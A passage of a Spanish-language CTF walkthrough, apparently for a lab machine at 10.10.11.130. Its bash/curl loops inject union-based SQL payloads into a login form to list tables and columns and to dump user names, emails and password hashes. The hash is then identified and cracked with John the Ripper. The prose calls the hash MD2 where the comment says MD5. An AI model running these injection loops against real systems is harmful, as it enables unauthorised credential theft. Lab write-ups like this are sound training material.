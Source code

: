 Ahora vamos a automatizar el comando para que nos muestre todas las tablas:
```bash
❯ for i in $(seq 0 100); do echo "[+] El numero $i: $(curl -s -X POST http://10.10.11.130/login --data "email=test@test.com' union select 1,2,3,table_name from information_schema.tables where table_schema=\"main\" limit $i,1-- -&password=1111" | grep "Welcome" | sed 's/^ *//' | awk 'NF{print $NF}' | awk '{print $1}' FS="<")"; done

	# data = Que es lo que queremos enviar a nivel de data
	# for = Ir iterando en el $i
	# main = La base de datos actual
	
```

Ahora vamos a automatizar el comando para que nos muestre todas las columnas:
```bash
❯ for i in $(seq 0 100); do echo "[+] El numero $i: $(curl -s -X POST http://10.10.11.130/login --data "email=test@test.com' union select 1,2,3,column_name from information_schema.columns where table_schema=\"main\" and table_name=\"user\" limit $i,1-- -&password=1111" | grep "Welcome" | sed 's/^ *//' | awk 'NF{print $NF}' | awk '{print $1}' FS="<")"; done

	# data = Que es lo que queremos enviar a nivel de data
	# for = Ir iterando en el $i
	# main = La base de datos actual
	# user = tabla de la DB
	# \ = Para escapar las comillas de user y main y asi no nos de un error al mandar la data por comando
```

Ahora podemos extraer los datos de las columnas (user, passwd)
```bash
❯ for i in $(seq 0 100); do echo "[+] El numero $i: $(curl -s -X POST http://10.10.11.130/login --data "email=test@test.com' union select 1,2,3,group_concat(name,0x3a,email,0x3a,password) from user limit $i,1-- -&password=1111" | grep "Welcome" | sed 's/^ *//' | awk 'NF{print $NF}' | awk '{print $1}' FS="<")"; done

	# 0x3a = ':' en Hexadecimal
```
Nos devuelve un usuario, su email y una passwerd encritada

Para saber que tipo de **Hash** tiene la passwd, hacemos lo siguiente:
```bash
❯ hash-identifier                           # Abriremos la tool y desoues colocaremos el hash a encontrar
	2b22337f218b2d82dfc3b6f77e7cb8ec

	# MD5 = Tiene 32 caracteres
```
Nos damos cuenta que es un MD2

Para poder desencriptar el has usamos la tool **John the Ripper**
```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt Hash                 # Usamos John para crackear un hash con fuerza bruta

	# wordlist = Ruta del diccionario rockyou.txt
	# Hash = Archivo que contiene el hash a crackear
```
